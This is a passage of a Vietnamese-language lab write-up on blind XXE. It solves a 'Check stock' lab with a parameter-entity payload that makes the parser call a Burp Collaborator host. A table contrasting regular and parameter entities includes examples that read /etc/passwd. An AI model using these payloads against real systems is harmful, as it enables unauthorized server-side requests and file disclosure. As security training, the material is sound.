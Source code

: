 **Note**
Ý tưởng này chính là ý tưởng kiểm tra lỗ hổng SSRF thông qua kênh ngoài ( OUT OF BAND).

---

### 4. Blind XXE with out-of-band interaction via XML parameter entities

**Yêu cầu**
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.
To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

**Thực hiện**
- Cũng như bài lab trên ta có thể thử luôn bằng payload được sử dụng bên trên.
![alt text](img/image-7.png)

- Thông báo Entities này không được phép sử dụng, chúng ta sẽ bypass bằng cách sử dụng `parameter entities`.
Payload
```XML
<!DOCTYPE name [<!ENTITY % abc SYSTEM "http://jaxx7bdprmz48fnsc4q1si1ho8uziq6f.oastify.com">%abc;]>
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
![alt text](img/image-8.png)
![alt text](img/image-9.png)
![alt text](img/image-10.png)

- Hoàn thành bài lab
**Note**
Sự khác biệt giữa Regular Entities và Parameter Entities trong XXE

| Loại Entity       | Regular Entities                        | Parameter Entities                        |
|-------------------|-----------------------------------------|-------------------------------------------|
| Cú pháp khai báo  | `<!ENTITY name "value">`                | `<!ENTITY % name "value">`                |
| Cú pháp gọi       | `&name;`                                | `%name;`                                  |
| Phạm vi sử dụng   | Có thể sử dụng trực tiếp trong nội dung XML | Chỉ có thể sử dụng bên trong DTD          |
| Mục đích khai thác XXE | Đọc file, SSRF, OOB khi hệ thống không chặn entity | Dùng khi hệ thống chặn regular entity nhưng vẫn xử lý DTD |
| Ví dụ khai báo    | `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | `<!ENTITY % xxe SYSTEM "file:///etc/passwd">` |
| Ví dụ gọi         | `<data>&xxe;</data>`                    | `%xxe;` (chỉ dùng trong DTD)              |

Tại sao lại hiện `"XML parsing error"` ??? 

## Exploiting blind XXE to exfiltrate data out-of-band
